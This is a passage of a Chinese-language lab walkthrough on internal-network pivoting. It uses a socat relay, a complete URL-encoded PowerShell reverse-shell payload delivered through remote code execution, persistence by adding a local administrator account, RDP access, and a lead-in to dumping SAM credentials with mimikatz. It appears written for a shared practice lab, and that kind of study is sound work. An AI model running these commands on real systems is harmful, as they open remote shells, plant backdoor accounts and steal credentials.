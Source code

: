 目标无法ping通我们攻击机

### Socat 中继器

在这种环境下，socat更适合。

利用socat将200机器的流量转发到我们攻击机

将socat二进制可执行文件传过去，防火墙放行18888

```bash
[root@prod-serv hackerM]# ./socat tcp-l:18888 tcp:10.50.91.179:8888 &
```

攻击机开启nc监听：

	nc -vlnp 8888

利用RCE reverse shell到200机器的18888端口

```shell
powershell.exe+-c+"$client+%3d+New-Object+System.Net.Sockets.TCPClient('10.200.90.200',18888)%3b$stream+%3d+$client.GetStream()%3b[byte[]]$bytes+%3d+0..65535|%25{0}%3bwhile(($i+%3d+$stream.Read($bytes,+0,+$bytes.Length))+-ne+0){%3b$data+%3d+(New-Object+-TypeName+System.Text.ASCIIEncoding).GetString($bytes,0,+$i)%3b$sendback+%3d+(iex+$data+2>%261+|+Out-String+)%3b$sendback2+%3d+$sendback+%2b+'PS+'+%2b+(pwd).Path+%2b+'>+'%3b$sendbyte+%3d+([text.encoding]%3a%3aASCII).GetBytes($sendback2)%3b$stream.Write($sendbyte,0,$sendbyte.Length)%3b$stream.Flush()}%3b$client.Close()"
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/7de075a660a240cab0b835605a9d94b9.png)

成功getshell

---

**拓扑更新**

![在这里插入图片描述](https://img-blog.csdnimg.cn/e4c5198ac1144fb9a827d248532aa0b4.png)

### 内网Windows 本地 Persisting

做一下简单的本地持久化

	net user hackerM 1q2w3e4r /add
	net localgroup Administrators hackerM /add
	net localgroup "Remote Management Users" hackerM /add
	net localgroup "Remote Desktop Users" hackerM /add

进xfreerdp

	xfreerdp /v:10.200.90.150 /u:hackerM /p:1q2w3e4r +clipboard /dynamic-resolution /drive:/tmp,share

- 由于公共实验室，人比较多，如果遇到特别卡的情况可以看情况协商shutdown -r -t 0

**这里mimikatz必须使用admin权限的cmd，接下来的命令才能生效**

![在这里插入图片描述](https://img-blog.csdnimg.cn/3fe62b64ff2f4789b4324d625526b283.png)

转储sam
